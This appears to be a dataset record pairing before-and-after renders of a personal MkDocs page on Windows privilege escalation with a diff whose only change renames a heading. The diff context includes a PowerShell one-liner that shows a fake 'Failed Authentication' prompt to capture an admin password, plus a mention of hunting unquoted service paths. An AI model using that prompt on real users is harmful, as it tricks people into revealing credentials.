

Before and after one commit to ConfusingBLANK/confusingblank.github.io, an MkDocs documentation site: the page built from docs/windowsexploitation/privilege-escalation.md, in a window 1280 px wide and 900 px high, scrolled down 1399 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
heading update

````diff
--- a/docs/windowsexploitation/privilege-escalation.md
+++ b/docs/windowsexploitation/privilege-escalation.md
@@ -67,7 +67,7 @@ powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Env
 powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+'admin',[Environment]::UserDomainName); $cred.getnetworkcredential().password"
 ```
 
-## Unsecured Services or Executables
+## Unsecured Services
 
 **Identify Unquoted Service Paths with WMIC:**
 wmic can trigger alerts in some environments.
````
